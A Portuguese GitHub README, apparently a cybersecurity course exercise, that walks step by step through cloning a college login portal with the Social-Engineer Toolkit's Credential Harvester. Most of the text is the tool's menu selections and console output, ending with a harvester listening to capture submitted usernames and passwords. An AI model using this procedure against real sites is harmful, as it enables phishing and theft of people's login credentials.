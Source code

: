 # Phishing para captura de senhas 🚩

Fazer a captura de usuário e senha de um site usando ferramentas do kali Linux

## Ferramentas 👨‍💻

- Kali Linux
- setoolkit

## Passo a Passo 👣


• Acesso root: sudo su

• Iniciando o setoolkit: setoolkit

                                                                   
 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set> 


• Tipo de ataque: Social-Engineering Attacks

set> 1

 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set> 


• Vetor de ataque: Web Site Attack Vectors

set> 2


   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>


• Método de ataque: Credential Harvester Attack Method 

set:webattack>3

 The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.
   
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>


• Método de ataque: Site Cloner

set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report



set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.0.191]: 
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com


• Obtendo o endereço da máquina: ifconfig
• URL para clone: http://www.exemplofaculdade.com


set:webattack> Enter the url to clone: http://www.exemplofaculdade.com

[*] Cloning the website: https://login.exemplofaculdade.com/login.php                                  
[*] This could take a little bit...                                                            

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                      
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                 
[*] Information will be displayed to you as it arrives below:          

## Resultados 🎁

![Alt text](./result.PNG)

Figura 1: Site de uma faculdade para o portal do aluno

![Alt text](./result2.PNG)

Figura 2: Imagem do Kali Linux usando a ferramenta SETOOLKIT

## Referências 📚

- https://web.dio.me/track/santander-ciberseguranca-2024
- https://www.kali.org/

## Updates 🕐

2024/12/10 - Primeira versão

## Pendências 🚨

